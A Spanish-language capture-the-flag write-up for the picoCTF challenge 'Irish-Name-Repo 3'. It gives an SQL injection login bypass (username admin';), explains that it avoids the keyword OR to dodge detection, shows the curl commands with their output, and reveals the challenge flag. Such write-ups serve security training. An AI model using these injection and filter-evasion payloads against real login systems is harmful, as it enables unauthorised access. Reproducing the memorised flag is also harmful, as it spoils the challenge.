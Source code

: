 # Irish-Name-Repo 3
## Descripcipción
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/` ([link](https://jupiter.challenges.picoctf.org/problem/54253/)) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!
## Pistas
- Seems like the password is encrypted.
## Solucion
```
se evita la palabra OR para evitar ser detectados, utilizando admin';

username: admin';
password: lkklj
SQL query: SELECT * FROM users WHERE name='admin';' AND password='lkklj'

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_aee925db}

-----------------------------------------------------------------------------
								SOLUCIÓN POR CONSOLA
----------------------------------------------------------------------------
rojiblanca-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=violeta&password=hola"
rojiblanca-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=violeta&password=hola"
<h1>Login failed.</h1>rojiblanca-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=admin';&password=hola&debug=1"
<pre>username: admin';
password: hola
SQL query: SELECT * FROM users WHERE name='admin';' AND password='hola'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_aee925db}</p>rojiblanca-picoctf@webshell:~$ 
```
## Bandera
picoCTF{m0R3_SQL_plz_aee925db}
## Notas adicionales
El usuario ingresa datos y altera la entrada
## Referencias
https://github.com/payloadbox/sql-injection-payload-list
